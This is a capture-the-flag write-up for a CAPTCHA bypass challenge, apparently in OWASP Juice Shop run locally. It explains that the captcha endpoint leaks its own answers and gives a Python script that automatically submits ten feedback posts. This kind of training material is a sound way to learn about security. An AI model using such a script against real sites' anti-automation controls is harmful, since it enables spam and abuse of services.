



## CAPTCHA Bypass
### Challenge: Submit 10 or more customer feedbacks within 10 seconds.
### Category: Broken Anti Automation

My favorite challenge so far!

Firstly, while using burp to capture HTTP requests > Customer feed back form > submit some feedback

We observe that the following parameters are required `captchaId` which is an incremental id for each "challenge" and a `captcha` for the answer to the challenge.



If you check the Developer tools XHR requests, observe that the `/rest/captcha` endpoint is call when the feedback page loads, which provides a new feedback captcha (they even provide the answer too!)



We have all the information needed to write our script, using python, we can test out the GET request to this endpoint and able to extract the values we need to form a POST request. 


Finally writing the script to loop it through 10 times so that we can complete this challenge.

```python
import requests
import json

for x in range(0,10):

	# GET captcha id and answer
	r = requests.get("http://127.0.0.1:3000/rest/captcha/")
	data = r.json()

	captcha_id = data['captchaId']
	captcha_answer = data['answer']

	# POST form 

	# Create form parameters
	# sample parameters {"captchaId":11,"captcha":"17","comment":"asdasd","rating":5}
	json_obj = {"captchaId":captcha_id,"captcha":captcha_answer,"comment":"sucks!","rating":1}

	headers = {
	'Content-type':'application/json', 
	'Accept':'application/json' }
	result = requests.post("http://127.0.0.1:3000/api/Feedbacks", data=json.dumps(json_obj), headers=headers)
	print(result)
	print(result.status_code)
	#print(result.json())
```

In short, this script does the following things:
1. Gets a captcha unique ID and its answer, these 2 values are required to send in our form.
2. Form a json object with our form values `json_obj`
3. Create a post request adding HTTP data such as headers (defining content type) and converting our object to json.
4. printing the results of the script. Type 2 responses indicating successful.



